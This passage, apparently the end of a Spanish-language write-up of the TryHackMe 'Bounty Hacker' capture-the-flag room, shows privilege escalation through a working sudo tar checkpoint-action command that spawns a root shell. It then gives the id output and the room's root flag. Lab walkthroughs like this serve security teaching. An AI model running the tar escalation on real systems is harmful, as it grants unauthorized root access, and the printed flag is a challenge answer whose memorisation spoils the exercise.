 <img width="740" height="561" alt="gtfoBins sudo tar" src="https://github.com/user-attachments/assets/aae21423-c39d-43aa-a151-0c3dcdfc1fc2" />

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
Esto abre una shell con privilegios de root.

## 1️⃣1️⃣ Obtención de la flag de root

Ejecutamos el exploit con `tar` para escalar privilegios:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

<img width="943" height="140" alt=" flag user" src="https://github.com/user-attachments/assets/2c654c64-8ce5-4626-9f69-814fe52e45f0" />

Conseguimos acceso como root:
id
uid=0(root) gid=0(root) groups=0(root)

Finalmente, accedimos al archivo root.txt ubicado en /root/:

La flag obtenida es:

THM{B0UN7Y_h4cK3r}

👉 Con esto completamos el CTF Bounty Hacker con éxito 🎉.

